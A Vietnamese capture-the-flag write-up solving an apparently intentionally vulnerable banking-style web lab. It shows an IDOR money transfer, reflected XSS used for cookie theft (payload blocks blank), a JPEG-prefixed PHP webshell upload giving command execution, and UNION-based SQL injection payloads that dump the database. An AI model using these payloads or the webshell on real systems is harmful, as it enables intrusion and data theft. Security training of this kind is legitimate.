# Chức năng

Trang `/index` hiển thị bảng xếp hạng các người dùng dựa trên số tiền trên web


Chức năng gửi tiền trong trang `/send_money.php`


Trang chỉnh sửa profile `/profile.php`


Đọc các file upload trong subdomain `upload.koinbase`  


# Phát hiện
## API GET `/api/user.php?action=` trả kết quả cho bảng xếp hạng


## Truy cập robots.txt
Không truy cập được robots.txt trên trang chính.
Nhưng trang upload thì có thể truy cập được, phát hiện đường dẫn file `backup.zip`. Tải source code bằng đường dẫn  
  

Bung `backup.zip` đọc source code, phát hiện flag 1 trong file `docker-compose.yml`  
  
**FLAG** CBJS{do_you_use_a_good_wordlist?}

## Thiếu kiểm soát id người gửi trong chức năng chuyển tiền
Gói tin yêu cầu của chức năng gửi tiền có tham số `sender_id` lưu id của người gửi và người dùng hoàn toàn có thể thay đổi tham số này.
  

Vậy sẽ ra sao nếu ta nhập id của người khác và gửi tiền cho mình?
Id hiện tại của mình là `id=3`, thử thay đổi gói tin với `sender_id=1` (admin) và `receiver_id=3` (user). Kết quả giao dịch thành công.


Kiểm tra `profile.php` lấy được flag 4  


**FLAG** CBJS{master_of_broken_access_control}

## Lỗi HTML Injection ở hiển thị page number trong Hall of Fame dẫn đến XSS
Đổi biến GET `page=100` thì page number trong bảng xếp hạng cũng đổi theo.  


Sau khi thử với payload `page=<h1>test</h1>` thì cỡ chữ có thay đổi --> bị HTML Injection  


Thử với `<script>alert(1)</script>` nhưng không hiển thị, thử thêm với `<scr<script>ipt>alert(1)</scr<script>ipt>` đều không hiển thị


Thử với tag `` thành công  


Vậy ta chỉ cần thêm thuộc tính `onerror=` với script là xong, thử với `onerror=alert(1)` thực thi được script  


Kiểm tra trong burp, nhận thấy phần lớn các trang đều được quản lý bằng phiên cookie php.  
  

Vậy sẽ ra sao nếu ta sử dụng lỗi XSS để lấy cookie của nạn nhân. Thử với payload
```

```
Tuy nhiên lại cho ra kết quả ở webhook, sau vài lần thử, có vẻ payload bị lọc dấu `+`, cứ có dấu `+` ở bất kỳ đâu là không hoạt động

Thử lại sử dụng format của javascript, payload cuối cùng sẽ là
```

```

Lấy cookie của nạn nhân thay vào. Truy cập trang profile.php, ta sẽ có flag thứ 3 trong credit  
  

**FLAG** Flag 3: CBJS{you_have_found_reflected_xss}

## Untrusted data trong hàm nguy hiểm `file_get_content()`
Trong file `index.php` của upload, trong hàm đọc và lưu file trên hệ thống  
```php
if (isset($_GET['url'])) {
    $url = $_GET['url'];
    if (!filter_var($url, FILTER_VALIDATE_URL)) {
        $result->message = "Not a valid url";
        die(json_encode($result));
    }

    $file_name = "upload/" . bin2hex(random_bytes(8)) . getExtesion($url);
    $data = file_get_contents($url);

    if ($data) {
        file_put_contents($file_name, $data);

        if (isImage($file_name)) {
            $result->message = $file_name;
            $result->status_code = 200;
        } else {
            $result->message = "File is not an image";
            unlink($file_name);
        }

        die(json_encode($result));
    } else {
        $result->message = "Cannot get file contents";
        die(json_encode($result));
    }
```
Untrusted data `GET url` được đưa vào hàm nguy hiểm `file_get_contents()`. Trang web sẽ lấy nội dung ở đường dẫn `url` này và kiểm tra xem đây có phải là file hình ảnh bằng hàm `isImage()`.  
```php
function isImage($file_path)
{
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $mime_type = finfo_file($finfo, $file_path);
    $whitelist = array("image/jpeg", "image/png", "image/gif");
    if (in_array($mime_type, $whitelist, TRUE)) {
        return true;
    }
    return false;
}
```

Kiểm tra thử này, phát hiện hàm thực hiện kiểm tra thông qua `finfo_file()`. Hàm này sẽ cho kết quả loại file thông qua chữ ký đầu tệp của file. Sẽ ra sao nếu ta upload một webshell php có chữ ký đầu tệp là jpeg.  

Thử sử dụng chữ ký đầu tệp và đặt đuôi file `.php` để kiểm tra. Có thể upload và thực thi file php  
  

Upload shell lên web  
```php
ÿØÿÛ   
<?php system($_GET[a]) ?>
```

RCE đọc flag `/secret.txt`  
  

**FLAG** Flag 2: CBJS{y0u_rce_me_or_you_went_in_another_way?}  

**NOTE**: Đọc nội dung flag thì mình đoán còn cách khác có thể là SQL Injection để đọc nội dung `/secret.txt`  

## Phát hiện lỗi SQL Injection trong `/api/user.php?action=public_info`
Dựa vào code của `/lib/common.php`, lưu ý rằng tất các tham số `POST` và `GET` đều được validate ký tự nháy đơn `'`. Đồng thời, file lưu các hàm xử lý SQL cũng nằm trong source code trong file `/libs/database.php`.  

Với hai thông tin này, ta cần tìm truy vấn nào có thể escape mà cần sử dụng nháy đơn `'`. Ta phát hiện hàm `getInfoFromUserID()` có thể escape mà không sử dụng ký tự đặc biệt  
```php
function getInfoFromUserId($id) {
    return selectOne("SELECT id, username, money, image, enc_credit_card, bio FROM users WHERE id=" . $id . " LIMIT 1");
}
```

Truy ngược lại tiếp, ta phát hiện 2 endpoint đang sử dụng hàm nguy hiểm này là `/api/transaction.php?action=transfer_money` và `/api/user.php?action=public_info`. Tuy nhiên, trong api `transfer_money`, phản hồi không trả về kết quả truy vấn nên ta sẽ chọn `public_info` để khai thác db.  

Thử `id=3 OR 1=1`, kết quả trả về sẽ không còn là thông tin của user id 3 mà là user id 1 --> bị lỗi SQL injection  
  

Lấy tên db với payload `id=0+UNION+SELECT+1,2,3,4,5,database()--` --> db name `tonghop`
  

Lấy tên table với payload `id=0+UNION+SELECT+1,2,3,4,5,GROUP_CONCAT(table_name)+FROM+information_schema.tables+WHERE+table_schema%3ddatabase()--`  --> table `flag,users`  
    

Lấy tên cột trong bảng `flag` `id=0+UNION+SELECT+1,2,3,4,5,GROUP_CONCAT(column_name)+FROM+information_schema.columns+WHERE+table_name%3d"flag"--`  --> cột `flag`  
  

Đọc flag `id=0+UNION+SELECT+1,2,3,4,5,flag+FROM+flag--`  


**FLAG** CBJS{integer_id_with_sqlinjection}
